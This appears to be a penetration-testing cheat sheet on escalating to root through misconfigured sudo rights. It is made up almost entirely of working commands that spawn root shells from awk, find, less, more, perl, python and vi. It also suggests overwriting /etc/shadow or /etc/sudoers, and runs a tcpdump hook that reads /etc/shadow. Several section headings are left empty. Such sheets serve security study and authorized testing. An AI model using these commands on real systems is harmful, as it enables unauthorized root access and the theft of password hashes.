 # Abusing Sudo Rights

## Overview

* if you have a limited shell that has access to some programs using sudo you might be able to

escalate your privileges with

* any program that can write or overwrite can be used
* for example, if you have sudo-rights to cp you can

```bash
overwrite /etc/shadow #or 
/etc/sudoers #with your own malicious file
```

## Awk

```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Bash

## Cp

* copy and overwrite this file

```bash
/etc/shadow
```

## Find

```bash
sudo find / -exec bash -i \;
```

```bash
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

## Ht

* the text/binary-editor HT.

## Less

* from less you can go into vi, and then into a shell

```bash
sudo less /etc/shadow
v
:shell
```

## More

* you need to run more on a file that is bigger than your screen

```bash
sudo more /home/pelle/myfile
!/bin/bash
```

## Mv

* overwrite these files

```bash
/etc/shadow
/etc/sudoers
```

## Man

## nano

## Nc

## Nmap

## Python/Perl/Ruby/Lua/Etc

### Perl

```bash
sudo perl
exec "/bin/bash";
ctr-d
```

### Python

```bash
sudo python
import os
os.system("/bin/bash")
```

## Sh

## tcpdump

```bash
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

## Vi/Vim

* can be abused like this

```bash
sudo vi
:shell
#and/or
:set shell=/bin/bash:shell
:!bash
```
